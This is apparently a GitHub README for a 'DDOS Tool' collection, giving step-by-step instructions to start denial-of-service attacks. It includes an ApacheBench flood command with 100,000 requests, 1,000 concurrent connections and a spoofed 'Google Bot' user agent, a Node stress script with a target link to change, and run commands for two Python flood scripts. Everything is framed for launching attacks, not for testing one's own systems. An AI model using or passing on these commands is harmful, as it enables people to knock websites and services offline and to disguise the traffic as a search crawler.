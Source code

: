 # DDOS Tool

<!-- ![screenshot_one](./screenshot/screenshot.png) -->

![screenshot_two](./screenshot/screenshot1.png)
<br/><br/><br/><br/>

# ApacheBench

_you can start DDOS by following these steps:_
<br/>
**1. Write that command**
```bash
ab -n 100000 -c 1000 -k -r -H "User-Agent: Google Bot"  https://exemple.com/**
```


<br/><br/><br/><br/>



# ddos-stress

_you can start DDOS by following these steps:_
<br/>
**1. cd ddos-stress**
<br/>
**2. npm install**
<br/>
**3. change link in code**
```javascript
stress.run('https://test.com',100);
```
<br/>
**4. node ddos-stress.js**


<br/><br/><br/><br/>



# DDOS For Сhildren
_you can start DDOS by following these steps:_
<br/>
**1. cd DDOS-For-Сhildren**
<br/>
**2. python DDOS-For-Сhildren.py**


<br/><br/><br/><br/>



# OnionTCP
_you can start DDOS by following these steps:_
<br/>
**1. cd OnionTCP**
<br/>
**2. python OnionTCP.py**



